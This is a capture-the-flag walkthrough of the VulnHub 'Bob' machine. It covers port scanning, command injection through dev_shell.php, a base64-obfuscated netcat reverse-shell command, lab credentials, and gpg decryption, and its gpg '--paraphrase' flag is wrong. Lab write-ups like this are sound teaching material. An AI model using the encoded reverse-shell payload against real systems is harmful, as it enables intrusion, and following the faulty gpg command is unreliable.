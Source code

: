 ```yaml
---
title: Bob
categories: [VulnHub]
tags: [Command Injection, gpg, Recon, PrivEsc]
image:
  path: /Vulnhub-Files/img/Bob/Untitled%203.png
  alt: Bob Machine !
---
```


## **Description ⤵️**


> 💡 **Difficulty: Beginner/Intermediate →** [Bob](https://vulnhub.com/entry/bob-101,226/)<br>
<br>
    Bob is my first CTF VM that I have ever made so be easy on me if it is not perfect.
<br><br>
    The Milburg Highschool Server has just been attacked, the IT staff have taken down their windows server and are now setting up a linux server running Debian. Could there a few weak points in the new unfinished server?
<br>
____
<br>
<br>
    Your Goal is to get the flag in /
<br>
    Hints: Remember to look for hidden info/files
<br>
    ## Changelog v1.0 ~ 2018-03-07 v1.0.1 ~ 2018-03-09
{: .prompt-info }

#### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Bob/Untitled.png)

```bash
IP : 10.0.2.18
```
{: .nolineno}

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/Bob/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%202.png)

```bash
OPEN PORTS >
80     HTTP (Enumeration Further !)
25468  SSH  (Hiding the ssh port from changing it is good strategy !)
```
{: .nolineno}

___

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Bob/Untitled%203.png)

Lets check the robots.txt file →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%204.png)

I will be preparing this payload for checking the `dev_shell.php` file field path with command injection.

![Untitled](/Vulnhub-Files/img/Bob/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%206.png)

Lets try to get the output now → `for command : id`

![Untitled](/Vulnhub-Files/img/Bob/Untitled%207.png)

Lets try to generate reverse shell from it →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%208.png)

Now let is try the reverse shell Now →

```bash
command ->
echo "bmMgMTAuMC4yLjEwIDQ0NDQgLWUgL2Jpbi9iYXNoCg==" | base64 -d | bash
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Bob/Untitled%209.png)

Look what  I found →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2010.png)

```bash
jc	:	Qwerty
seb	:	T1tanium_Pa$$word_Hack3rs_Fear_M3
```
{: .nolineno}

## SSH SHELL ⤵️

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2011.png)

While further enumeration I got the cred for elliot user from its directory.

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2012.png)

```bash
elliot  :  theadminisdumb
```
{: .nolineno}

After very much enumeration of directories  I got this folder and The secret part was the `HARPOCRATES`

`Harpocrates` was the Greek god of silence, secrets, and confidentiality.

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2013.png)

Now for extracting this I used this parapharase →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2014.png)

```bash
gpg login.txt.gpg
gpg --batch --paraphrase HARPOCRATES -d login.txt.gpg
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2015.png)
_Extracted the password of another user names bob._

```bash
And I got this credential →
bob	:	b0bcat_
```
{: .nolineno}

Lets see how bob can lead us to root —>

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2016.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2017.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2018.png)
<br>
<br>
<br>
___

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }